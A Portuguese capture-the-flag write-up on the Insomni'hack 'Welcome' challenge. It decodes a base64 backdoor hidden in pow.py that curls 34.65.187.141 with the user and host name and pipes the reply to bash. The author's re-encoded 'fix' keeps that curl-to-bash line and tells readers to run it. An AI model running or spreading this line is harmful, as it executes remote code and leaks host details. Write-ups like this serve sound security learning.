

# Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall


Então aqui, temos um arquivo chamado `pow` para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```


O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.



Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?


Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```


Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```


---
**ATENÇÃO:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, só precisamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.


Bazinga! Capturamos nossa Flag.
Espero ter te ajudado em algo!

Abs...
